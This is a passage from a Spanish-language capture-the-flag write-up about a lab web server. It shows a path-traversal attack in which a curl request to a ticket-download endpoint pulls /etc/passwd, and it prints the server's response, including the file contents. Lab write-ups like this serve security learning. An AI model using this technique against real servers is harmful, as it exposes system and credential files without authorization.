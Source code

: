 Nos da una opción para anotarnos en el viaje, pero del resto no podemos hacer nada más... asi que veamos que logramos con esto.

## Intrusión

Interceptando las peticiones HTTP al anotarnos para el viaje en crucero, veremos que hay una petición a un endpoint que nos descarga un boleto en formato JSON:

```bash
HTTP/1.1 302 FOUND
Date: Thu, 19 Jun 2025 19:26:03 GMT
Server: Werkzeug/3.0.3 Python/3.10.12
Content-Type: text/html; charset=utf-8
Content-Length: 303
Location: /download?ticket=cd8d0903-c71f-4c1d-8db9-23923f6a81b0.json
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive

... [snip]
```

Si al endpoint intentamos hacerle una petición por el fichero `/etc/passwd`:

```bash
❯ curl -v "http://titanic.htb/download?ticket=/etc/passwd"
* Host titanic.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.10.11.55
*   Trying 10.10.11.55:80...
* Connected to titanic.htb (10.10.11.55) port 80
* using HTTP/1.x
> GET /download?ticket=/etc/passwd HTTP/1.1
> Host: titanic.htb
> User-Agent: curl/8.13.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Date: Thu, 19 Jun 2025 19:32:54 GMT
< Server: Werkzeug/3.0.3 Python/3.10.12
< Content-Disposition: attachment; filename="/etc/passwd"
< Content-Type: application/octet-stream
< Content-Length: 1951
< Last-Modified: Fri, 07 Feb 2025 11:16:19 GMT
< Cache-Control: no-cache
< ETag: "1738926979.4294043-1951-393413677"
< 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
... [snip]
```
